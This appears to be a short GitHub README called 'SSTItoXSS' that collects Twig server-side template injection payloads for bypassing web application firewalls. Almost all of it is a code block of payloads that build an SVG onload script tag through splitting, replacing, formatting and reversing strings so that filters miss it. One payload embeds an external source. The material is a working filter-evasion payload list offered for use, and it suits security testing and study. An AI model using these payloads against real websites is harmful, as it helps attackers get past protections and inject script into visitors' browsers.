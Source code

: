 #### SSTItoXSS
Exploiting SSTI to bypass WAF

This repository aimed at bypassing WAF with server side template injection, for the times when RCE isn't possible.

- twig

```
{%set a="<svg oYad=aZt`1`>"%}
{{a|replace({'Y':'nlo','Z':'ler'})|raw}}

{%set a='<svg o'%}
{%set b='nload=al'%}
{%set c='ert`1`>'%}
{{a|raw}}{{b|raw}}{{c|raw}}

{{'<svg o'}}{{'nload=al'}}{{'ert`1`>'}}

{{'<sv%snload=%s%s>'|format('g o','aler','t`1`')|raw}}

{{'>)1(trela=daolno gvs<'|reverse|raw}}

{{'<embe'}}{{'d src=//14.rs>'}}
```

#### TODO

1. Categorise
